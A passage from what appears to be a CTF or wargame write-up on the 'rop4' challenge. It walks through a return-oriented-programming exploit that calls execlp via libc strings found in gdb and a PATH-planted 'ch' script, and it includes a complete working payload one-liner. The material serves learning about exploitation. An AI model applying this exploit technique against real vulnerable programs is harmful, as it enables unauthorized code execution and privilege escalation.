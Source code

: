Success! Wait... what just happened. <del>Yeah, I have no idea. Good luck!</del>
(I got the 0x20 increase by just increasing the value arbitrarily to something like 0x18, and found my environment variable stuck in there. Just increased the address until it cut off the "EXPLOIT=" bit before the path).

Normally [ASLR](http://en.wikipedia.org/wiki/Address_space_layout_randomization) is turned on, which randomizes addresses (like our environment variable) so that they're <del>impossible</del>&nbsp;hard to find. In this case ASLR was not turned on, but the stack got modified slightly anyways. Basically something caused the stack to change and move stuff around (ie. the real address to our environment variable), which we cannot always predict. That being said, we can still guess (as long as ASLR is off) and it turns out that we&nbsp;weren't&nbsp;that far off (0x20). Bypassing ASLR is outside the scope of this post (and my knowledge) but its nice to clear up that bit.

#### Update:
Finding the environment variable with a mangled stack can be tough, so I figured out a more robust solution. Instead of using an environment variable, lets just make a new command and use strings from libc to call it. This is what I mean:

  1. remember rop4s.sh?, make a copy of it and name it "ch"
  2. now edit your [PATH](http://www.cyberciti.biz/faq/howto-print-path-variable/)&nbsp;and add the directory of your "ch" shell script file
  3. now you can call "ch" from the command line, and it should run your script

Now lets see how the code looks:

```
     # first we need a string from libc that isn't already a command (I chose "ch")
     gdb rop4
     (gdb) break main
     (gdb) run
     (gdb) print execlp
     >> $1 = {<text variable, no debug info>} 0x8053ab0 <execlp>
     (gdb) find &execlp,+9999999,"ch"
     >> 0x80ccf48 <__PRETTY_FUNCTION__.8742+9>
     >> 0x80dafa1 #well, use this address
     # now we isolate rop4s.sh and rename it to "ch"
     mkdir cmd
     cp rop4s.sh cmd/ch
     # and then add it to our path
     export PATH=/home2/user1792/cmd:$PATH
     # and our new exploit becomes:
```

`(fill)`  `(execlp)`          `(retn)` `("/bin/sh")(twice)`      `("ch")`              `(null)`  

```
     cat <(python -c 'print "A"*140+"\xb0\x3a\x05\x08"+"A"*4+"\x4f\xbf\x0c\x08"*2+ "\xa1\xaf\x0d\x08"+"\xa1\x97\x0c\x08"') - | ./rop4
```
For more info on ROP's (and bypassing ASLR) check out these sources:  
[https://isisblogs.poly.edu/2011/10/21/geras-insecure-programming-warming-up-stack-1-rop-nxaslr-bypass/](https://isisblogs.poly.edu/2011/10/21/geras-insecure-programming-warming-up-stack-1-rop-nxaslr-bypass/)  
[http://blog.the-playground.dk/2012/08/lesson-learned-from-my-first-rop-exploit.html](http://blog.the-playground.dk/2012/08/lesson-learned-from-my-first-rop-exploit.html)  
[http://security.stackexchange.com/questions/20497/stack-overflows-defeating-canaries-aslr-dep-nx](http://security.stackexchange.com/questions/20497/stack-overflows-defeating-canaries-aslr-dep-nx)  
[http://security.dico.unimi.it/~gianz/pubs/acsac09.pdf](http://security.dico.unimi.it/~gianz/pubs/acsac09.pdf)  
